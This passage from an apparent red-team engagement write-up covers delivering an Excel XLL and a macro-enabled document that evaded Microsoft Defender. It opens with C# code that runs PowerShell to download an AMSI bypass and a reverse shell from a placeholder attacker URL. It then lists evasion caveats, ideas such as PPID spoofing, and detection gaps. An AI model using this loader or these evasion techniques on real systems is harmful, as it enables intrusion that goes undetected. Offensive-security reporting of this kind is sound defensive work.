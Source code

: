```
            //AMSI bypass and reverse shell
            string command = "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://attackerurl/amsibypass.txt'); " +
                "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://attackerurl/reverseshell.txt";
            Runspace runSpace = RunspaceFactory.CreateRunspace();
            runSpace.Open();

            Pipeline pipeline = runSpace.CreatePipeline();
            pipeline.Commands.AddScript(command);
            pipeline.Invoke(); 

        }
    }
}
```



We delivered the XLL and the macro enabled document to the victim and we got the implant successfully connect to our server without triggering any alerts in the Defender and ATP portal.

### Caveats we faced

* &#x20;Even though we weren't detected by EDR throughout the engagement the only problem with this payload is it still resides in the Excel's memory. When we tried to trigger a child process creation using this implant in our test environment we got blocked by the ASR. So the ASR bypass only works inside the XLL itself.
* If the environment that you are testing uses a x86 Excel process in a x64 architecture machine it would be difficult to migrate into x64 process using the XLL.

### Things that we could have done better

* Microsoft defender is found to be prone to PPID spoofing attack. Instead of using simple implant we could of used this technique to initially come out of the Excel's memory.
* We also could have obfuscated the macro in a better way like the [MacroPack Pro](https://github.com/sevagas/macro\_pack) tool but due to the little timeframe we weren't able to do this.

### Things that Microsoft Solutions could have done better

* Microsoft could patch all the ASR bypass. I really don't understand the reason why they are not patching it since the beginning.
* They should not blindly trust their own products and features. As we have seen that the OneDrive links were blindly trusted by Microsoft 365 defender even though it points to the  macro enabled document. Also we also looked that the PowerShell SDK was blindly trusted by the EDR and even when we ran several discovery commands we were not detected. But most of the EDR solutions like VMware Carbon Black, CrowdStrike won't allow several applications in loading the PowerShell DLL into the memory.
* Their telemetry signals did not alert the registry write events. As writing the registries allowed us to automate the VBOM parser.

### Credits

A huge shout-out to all of my team members [Jyoti Acharya](https://uk.linkedin.com/in/jyoti-ranjan-acharya-2810a515?original\_referer=https%3A%2F%2Fwww.google.com%2F), [Nagendran GS](https://www.linkedin.com/in/nagendrangs/), [Muhammad Uwais](https://www.linkedin.com/in/muhammad-uwais/), [Vishal Biswas](https://www.linkedin.com/in/vishal-biswas/), [Sachin Yadav](https://www.linkedin.com/in/sachin-yadav-543265178/) for supporting me throughout the engagement.
